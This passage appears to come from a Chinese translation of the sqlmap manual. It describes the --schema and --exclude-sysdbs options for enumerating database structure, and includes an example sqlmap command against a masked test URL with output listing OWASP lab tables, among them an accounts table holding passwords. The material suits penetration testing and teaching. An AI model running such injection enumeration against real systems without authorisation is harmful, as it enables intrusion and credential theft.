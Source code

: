 **列举数据库系统的架构**

参数：`–schema,–exclude-sysdbs`

用户可以用此参数获取数据库的架构，包含所有的数据库，表和字段，以及各自的类型。

加上`–exclude-sysdbs`参数，将不会获取数据库自带的系统库内容。

MySQL例子：

```
$ python sqlmap.py -u "http://*******/sqlmap/mysql/get_int.php?id=1" --schema --batch --exclude-sysdbs
[...]
Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column  | Type|
+-------------+---------+
| cid | int(11) |
| mysignature | text|
| password| text|
| username| text|
+-------------+---------+

Database: owasp10
Table: blogs_table
[4 columns]
+--------------+----------+
| Column   | Type |
+--------------+----------+
| date | datetime |
| blogger_name | text |
| cid  | int(11)  |
| comment  | text |
+--------------+----------+

Database: owasp10
Table: hitlog
[6 columns]
+----------+----------+
| Column   | Type |
+----------+----------+
| date | datetime |
| browser  | text |
| cid  | int(11)  |
| hostname | text |
| ip   | text |
| referer  | text |
+----------+----------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type  |
+---------+---------------+
| id  | int(11)   |
| name| varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
[...]
```
